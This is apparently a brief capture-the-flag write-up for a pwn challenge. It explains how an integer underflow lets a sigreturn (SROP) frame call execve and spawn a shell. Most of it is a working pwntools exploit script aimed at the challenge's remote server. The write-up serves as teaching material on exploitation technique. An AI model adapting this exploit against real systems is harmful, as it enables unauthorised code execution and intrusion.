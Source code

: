 # Untitled

> checksec: disable all
> 

First, we build `rev` sigreturn frame (due to int underflow) call execve, `rdi` point to a var at bss section.

why stack frame can pop registers? After `leave` instruction, `rsp`  point to top of frame

Then, input `/bin//sh` to get shell

---

xpl.py

```python
#!/usr/bin/env python3
from pwn import *
def start(argv=[], *a, **kw):
  return remote('challs.xmas.htsp.ro', 2002, *a, **kw)

gs = '''
init-pwndbg
b *0x401193
'''.format(**locals())

bss_inp = 0x402000

'''
; syscall execute, then input '/' to quit
syscall
mov eax, 0
mov edi, 0
mov rsi, offset bss_inp
mov edx, 8
syscall     ; read(stdin, bss_inp, 8)
'''
syscall = 0x401114

'''
mov eax, 0xf
nop
syscall
'''
sigreturn = 0x401199

# need rev because we write from hight to low addr
def sigreturn_execve():
  frame = SigreturnFrame()
  frame.rax = 0x3b  # execve syscall
  frame.rdi = bss_inp
  frame.rsi = 0   # NULL
  frame.rdx = 0   # NULL
  frame.rip = syscall

  frameValList = list(frame.values())
  frameValList.reverse()
  return flat(frameValList)

def send_buf(io, s):
  io.sendafter(b'(/quit to leave)\n', s)

exe = './main'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

io = start()

frame = sigreturn_execve()
# int underflow
# wrap around with unsigned int16 index
send_buf(io, b"A" * (65496 - len(frame)))
send_buf(io, frame)
# overwrite rip by sigreturn syscall
send_buf(io, p64(sigreturn))
send_buf(io, b'//bin/sh\x00')
io.interactive()
```

---

more detail: https://memn0ps.gitlab.io/XMAS-Pwn-Santa-Tobacco-Shop/